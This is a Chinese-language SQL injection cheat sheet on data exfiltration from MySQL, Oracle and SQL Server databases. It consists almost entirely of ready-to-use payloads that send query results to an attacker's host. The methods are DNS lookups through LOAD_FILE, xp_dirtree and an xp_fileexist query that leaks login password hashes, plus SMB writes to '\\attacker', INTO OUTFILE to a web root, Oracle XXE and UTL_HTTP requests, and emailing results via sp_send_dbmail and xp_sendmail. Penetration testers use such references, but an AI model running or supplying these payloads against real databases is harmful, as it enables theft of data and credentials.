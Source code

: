 ### 数据泄露 {docsify-ignore-all}

泄漏的数据以及任何受损数据的脱机副本可以用来做数据分析。数据可以通过文件，各种Layer 4请求和隐藏技术被泄漏。


`* `需要特权用户

#### MySQL




| 描述   |      语句     |  
|----------|:-------------:|
| DNS 请求   |      ```SELECT LOAD\_FILE(concat('\\\\',(QUERY\_WITH\_ONLY\_ONE\_ROW), 'yourhost.com\\'))```     | 
| SMB 分享  |      ```SELECT * FROM USERS INTO OUTFILE '\\attacker\SMBshare\output.txt' ```    |  
| HTTP 服务器   |      ```SELECT * FROM USERS INTO OUTFILE '/var/www/html/output.txt'```     |  
| 数字连接   |      ```SELECT length(user())```<br />```SELECT ASCII(substr(user(),1)) ```<br />当数据只能作为数字导出时，转换为ASCII。 有关自动化[点击此处连接](http://zombiehelp54.blogspot.ro/2017/02/sql-injection-in-update-query-bug.html?m=1).|  



#### Oracle

| 描述   |      语句     |  
|----------|:-------------:|
|将多行合并为一行 |      `SELECT dbms_xmlgen.getxmltype('select user from dual') FROM dual`    |  
| XML外部实体  |      ``` SELECT xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://IP/test"> %remote; %param1;]>') FROM dual; ```    |  
| URL\_HTTP 请求 (Pre-11gR2)   |      `SELECT UTL_HTTP.request ('http://IP/test') FROM dual;`     |  
| 避免特殊字符   |      	``` SELECT UTL_URL.escape('http://IP/'```  &#124;&#124; ```USER) FROM dual;```   |  



#### SQL Server

注意：可以从MSSQL发出DNS请求。但是，此请求需要管理员权限和SQL Server 2005。



| 描述   |      语句     |  
|----------|:-------------:|
| 制造DNS请求  |      ```DECLARE @host varchar(800); select @host = name + '-' + master.sys.fn_varbintohexstr(password_hash) + 'netspi.com' from sys.sql_logins;exec('xp_fileexist "\' + @host + 'c$boot.ini"');```     |  
|UNC路径（DNS请求）   |      ```xp_dirtree ‘\\data.domain.com\file’```     |  
| 启用`sp_send_dbmail`并发送查询  |      ``` sp_configure 'show advanced options', 1;RECONFIGURE;sp_configure 'Database Mail XPs', 1;RECONFIGURE;exec msdb..sp_send_dbmail @recipients='harold@netspi.com',@query='select @@version'; ```     |  
| 基本的`xp_sendmail`查询   |      ``` EXEC master..xp_sendmail 'harold@netspi.com', 'This is a test.' ```     |  
| 使用`xp_sendmail`发送完整的电子邮件   |      ``` EXEC xp_sendmail @recipients='harold@netspi.com', @message='This is a test.', @copy_recipients='test@netspi.com', @subject='TEST' ```   |  
| 通过`xp_sendmail`发送查询结果   |     ``` EXEC xp_sendmail 'harold@netspi.com', @query='SELECT @@version'; ```    |  
| 通过`xp_sendmail`发送查询结果作为附件   |  ``` CREATE TABLE ##texttab (c1 text) INSERT ##texttab values ('Put messge here.') DECLARE @cmd varchar(56)SET @cmd = 'SELECT c1 from ##texttab'EXEC master.dbo.xp_sendmail 'robertk',@query = @cmd, @no_header='TRUE'DROP TABLE ##texttab ```      |  











